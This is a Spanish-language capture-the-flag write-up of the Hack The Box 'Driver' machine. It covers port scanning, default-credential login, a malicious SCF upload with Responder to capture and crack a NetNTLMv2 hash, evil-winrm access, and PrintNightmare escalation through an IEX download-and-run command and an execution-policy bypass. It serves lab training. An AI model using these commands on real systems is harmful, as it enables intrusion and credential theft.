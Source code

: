 #  DRIVER MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.11.106 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p80,135,445,5985 -sV -sC 10.10.11.106 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/3.png)

## EXPLOTACION

Vemos el puerto 80 abierto, si vamos a la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/4.png)

nos pide autenticacion basica, probemos credenciales por defecto **admin:admin**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/5.png)

entramos, si vamos al apartado de **Firmware update** vemos que podemos subir archivos. Se intento archivos PHP y demas pero no se logro nada interesante. Vemos el puerto 445 (Samba) que tambien estaba abierto.

En lo que consiste explotacion al servicio samba existe una forma de obtener hashes **NetNTLMv2** mediante un fichero **SCF** malicioso, la idea es crear un archivo con el nombre que empiece con **@** y termine con la extension **.scf**:

**@shell.scf**

```bash
[Shell]
Command=2
IconFile=\\<IP_KALI>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

cargamos este archivos y nos colocamos en escucha con [responder](https://github.com/SpiderLabs/Responder):

```bash
responder -wrf --lm -v -I tun0
```

y capturamos el hash de tony

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/6.png)

lo guardamos en un archivo para crackearlo con john the ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/7.png)

vemos que tenia el puerto **5985** que es el de **winrm** vamos a conectarnos por **evil-winrm**

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/8.png)

ya podemos ver la primera flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/9.png)

## ELEVACION DE PRIVILEGIOS 

Ya que tenia el puerto **135 msrpc** abierto vamos a tratar de enumerar los servicios que estan corriendo, particularmente me interesa el de impresoras y probar el ataque **printnightmare**:

```bash
rpcdump.py @10.10.11.106 | grep MS-RPRN
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/10.png)

si se encuentra disponible, otra forma es desde powershell:

```bash
Powershell.exe Get-Service Spooler
```

vamos a usar un script en powershell de esta vulnerabilidad, se encuentra en este repositorio:

[https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

pasamos el archivo .ps1 a la maquina windows mediante la funcion **upload** de evil-winrm:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/11.png)

ahora si tratamos de ejecutarlo nos dara el siguiente error:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/12.png)

la politica de ejecucion en powershell parece estar deshabibilitada, podemos ejecutarlo en memoria y realizar un bypass de la politica de ejecucion. En mi caso funciono la ejecucion en memoria, para ello levantamos  un servidor en python co el script y lo llamamos desde powershell de la siguiente manera:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.139:8000/CVE-2021-1675.ps1')
```

con esto cargaremos todo el script en memoria y lo podremos usar:

```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

como dice en el repositorio creara por defecto el usuario **john** con la contraseña **superSecure** como un usuario administrador, esto se puede personalizar pero yo lo dejare asi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/13.png)

podemos comprobar que existe el usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/14.png)

ahora solo debemos conectarnos por **evil-winrm** con ese usuario y al ser administrador podremos ver la segunda flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DRIVER/images/15.png)

**SEGUNDO METODO PARA BYPASSAR LA POLITICA DE EJECUCION**

invocamos el script de la siguiente manera:

```bash
powershell.exe -nop -ep bypass -c ".\CVE-2021-1675.ps1"
```

ahora ya podriamos crear al usuario:

```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```